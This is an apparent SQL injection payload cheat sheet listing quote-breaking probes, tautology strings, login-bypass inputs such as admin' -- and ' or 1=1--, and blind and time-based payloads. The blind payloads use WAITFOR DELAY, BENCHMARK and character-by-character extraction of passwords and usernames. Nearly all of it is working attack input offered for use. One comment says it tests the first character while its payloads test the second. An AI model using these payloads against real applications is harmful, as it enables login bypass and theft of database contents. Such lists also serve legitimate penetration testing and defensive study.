 # SQLi_Example_Basic

########### Examples basic for SQL injection ############################

'-'

' '

'&'

'^'

'*'

' or ''-'

' or '' '

' or ''&'

' or ''^'

' or ''*'

"-"

" "

"&"

"^"

"*"

" or ""-"

" or "" "

" or ""&"

" or ""^"

" or ""*"

or true--

" or true--

' or true--

") or true--

') or true--

' or 'x'='x

') or ('x')=('x

')) or (('x'))=(('x

" or "x"="x

") or ("x")=("x

")) or (("x"))=(("x 

============== blind SQLi ==============

id=1+AND+555=if(ord(mid ((select+pass+from+user+limit+0,1),1,1))=97,555,777)

check for username length:

id=1; IF (LEN(USER)=1) WAITFOR DELAY '00:00:10'--

id=1; IF (LEN(USER)=2) WAITFOR DELAY '00:00:10'--

id=1; IF (LEN(USER)=3) WAITFOR DELAY '00:00:10'--

check if 1st character in username containt A, B or C

id=1; IF (ASCII(lower(substring((USER), 2,1)))=97) WAITFOR DELAY '00:00:10'--

id=1; IF (ASCII(lower(substring((USER), 2,1)))=98) WAITFOR DELAY '00:00:10'--

id=1; IF (ASCII(lower(substring((USER), 2,1)))=99) WAITFOR DELAY '00:00:10'--

==========Bypass Login by SQLi ==============

admin' --

admin' #

admin' /*

' or 1=1--

' or 1=1#

' or 1=1/*

') or '1'='1--

') or ('1'='1--

========blind SQL injection check====================

MS SQL: waitfor delay '0:0:10'--

MySQL: BENCHMARK (howmanytimes, do this) 
